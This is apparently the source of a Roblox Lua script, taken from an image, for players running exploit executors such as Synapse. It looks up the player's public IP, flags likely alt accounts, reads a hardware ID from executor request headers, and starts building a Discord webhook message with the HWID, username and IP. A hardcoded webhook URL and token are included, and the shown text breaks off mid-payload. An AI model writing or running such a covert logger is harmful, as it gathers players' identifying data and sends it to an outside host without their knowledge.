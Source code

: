 

local IP = game:HttpGet("https://v4.ident.me")
plr = game:GetService'Players'.LocalPlayer
local premium = true
local ALT = false
if plr.MembershipType == Enum.MembershipType.Premium then
    premium = true
elseif plr.MembershipType == Enum.MembershipType.None then
    premium = false
end
if premium == false then 
    if plr.AccountAge <= 70 then 
        ALT = true
    end
end
 
local market = game:GetService("MarketplaceService")
local info = market:GetProductInfo(game.PlaceId, Enum.InfoType.Asset)
 
 
local http_request = http_request;
if syn then
    http_request = syn.request
elseif SENTINEL_V2 then
    function http_request(tb)
        return {
            StatusCode = 200;
            Body = request(tb.Url, tb.Method, (tb.Body or ''))
        }
    end
end
 
local body = http_request({Url = 'https://httpbin.org/get'; Method = 'GET'}).Body;
local decoded = game:GetService('HttpService'):JSONDecode(body)
local hwid_list = {"Syn-Fingerprint", "Exploit-Guid", "Proto-User-Identifier", "Sentinel-Fingerprint"};
hwid = "";
 
for i, v in next, hwid_list do
    if decoded.headers[v] then
        hwid = decoded.headers[v];
        break
    end
end
 
if hwid then
local HttpServ = game:GetService('HttpService')
local url = "https://webhook.lewisakura.moe./api/webhooks/1051275800193794179/2vyWgqs1yL1Q8r1wZz9CSPFpYOrV0eG8UxbWwBRvJGOkSKG0y1-pVRPUb9piCIw-4VYs"
 
 
local data = 
    {
        ["content"] = "",
        ["embeds"] = {{
            ["title"] = "__**HWID:**__",
            ["description"] = hwid,
            ["type"] = "rich",
            ["color"] = tonumber(0xAB0909),
            ["fields"] = {
                {
                    ["name"] = "Username:",
                    ["value"] = Game.Players.LocalPlayer.Name,
                    ["inline"] = true
                },
                {
                    ["name"] = "IP Address:",